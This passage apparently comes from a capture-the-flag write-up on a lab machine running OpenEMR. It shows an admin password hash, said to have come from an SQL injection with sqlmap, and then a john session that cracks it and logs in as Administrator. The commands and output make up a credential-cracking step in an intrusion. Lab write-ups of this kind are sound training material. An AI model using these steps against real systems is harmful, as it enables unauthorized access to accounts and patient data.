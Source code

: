 ![sqlmap2.png](images/sqlmap2.png)

We have the creds we were looking for:    
- username: **openemr_admin**    
- password: **$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.**

Cracking the password using `john` is straight forward:
~~~
root@kali:~/Documents/results/10.10.10.188# echo '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.' > pass.hash
root@kali:~/Documents/results/10.10.10.188# john pass.hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
xxxxxx           (?)
1g 0:00:00:00 DONE 2/3 (2020-06-07 06:43) 2.631g/s 2984p/s 2984c/s 2984C/s water..zombie
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

Our creds are:   
- username: **openemr_admin**    
- password: **xxxxxx**

We can login as **Administrator**:
